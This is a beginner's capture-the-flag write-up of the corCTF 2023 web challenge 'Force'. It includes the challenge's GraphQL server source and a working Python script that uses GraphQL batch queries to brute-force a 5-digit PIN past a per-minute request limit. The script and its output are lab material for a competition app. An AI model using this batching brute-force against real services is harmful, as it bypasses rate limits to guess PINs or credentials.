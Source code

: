 ```yaml
---
title: "2023 corCTF"
description: "Writeup for 2023 corCTF competition."
date: "Aug 1 2023"
---
```


## Background

corCTF 2023 was a CTF event organized by Crusader of Rust team and was held from Sat, 29 July 2023, 12:00 UTC — Mon, 31 July 2023, 12:00 UTC. There are a total of 39 challenges, with catrgories made up of reverse engineering, web, pwn, crypto and blockchain. Being a novice in CTF and cybersecurity in general, I only managed to complete 1 challenge, which is Force under the web category.

## web/force

In this challenge we are given tarball file to be download. It contains the source code of the web app that we can run as Docker using the Dockerfile provided.

```
FROM node:18

WORKDIR /app
COPY src/package* ./
RUN npm ci

COPY src/ .

CMD ["node", "--expose-gc", "web.js"]
```

We can then build the image and run it for testing. I use localhost port 8090 for this container.

```bash
> docker build -t web/force .
docker.io/library/node:18@sha256:c85dc4392f44f5de1d0d72dd20a088a542734445f99bed7aa8ac895c706d370d
writing image sha256:7d7d7a1e650b11de69f6cd2deda18c7c5647c127422c8234927bb25a7f236a34
naming to docker.io/web/force
> docker run -d -p 8090:80 web/force
55c31fd6a62e762300677d9e8cbd8bc9063935860a203e1052d253b106fa8f3b
```

Navigating using the browser we are greeted with the following page

![main_page](./img/force_main.png)

At first I thought the query in the text box is just a normal JSON format. But after looking into the source code I realized that it is GraphQL query. Before trying any exploit, I first try web app as intended to see how it behaves.

![first_try](./img/force_first_try.png)

Knowing nothing about GraphQL, I do some research online on how GraphQL works and looking up if there are any known vulnerabilities. One of the features of GraphQL is batch querying[^1] where you can do several queries at the same time using only one HTTP request. Thus, this makes for a suitable attack vector for bruteforcing the pin combination[^2]. I then look to the `web.js` for more information of the app.

```js
import fastify from "fastify";
import mercurius from "mercurius";
import { randomInt } from "crypto";
import { readFile } from "fs/promises";

const app = fastify({
  logger: true,
});

const index = await readFile("./index.html", "utf-8");
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
let requests = 10;

setInterval(() => (requests = 10), 60000);

await app.register(mercurius, {
  schema: `type Query {
        flag(pin: Int): String
    }`,
  resolvers: {
    Query: {
      flag: (_, { pin }) => {
        if (pin != secret) {
          return "Wrong!";
        }
        return process.env.FLAG || "corctf{test}";
      },
    },
  },
  routes: false,
});

app.get("/", (req, res) => {
  return res.header("Content-Type", "text/html").send(index);
});

app.post("/", async (req, res) => {
  if (requests <= 0) {
    return res.send("no u");
  }
  requests--;
  return res.graphql(req.body);
});

app.listen({ host: "0.0.0.0", port: 80 });
```

In order to get the flag, the pin we provide need to be the same as the secret value, which is the correct pin. From the code, we can see that the secret value is between 1 and 100k and the maximum number of request that the app accept before refusing to try the query is 10. From this information we can make a batch query with 10k pins each request. To simplify this, I make a python script.

```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
   
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}

while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
   
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
   
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
       
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

This script is probably not the most optimized script but it gets the job done. Running this we can get the flag.

```bash
> python solve.py
retrying...
retrying...
retrying...
retrying...
flag: corctf{test}
```

Running this in the challenge's instance we'll get the flag:

```bash
corctf{S T O N K S}
```

## Fin

Even though I only managed to solve 1 challenge, it is a fun experience and I learned a lot from it. I'm looking forward to learn more about cybersecurity and much looking forward to next year's corCTF. Thank you for reading.

[^1]: https://graphql.org/learn/queries/#aliases
[^2]: https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#batching-attacks
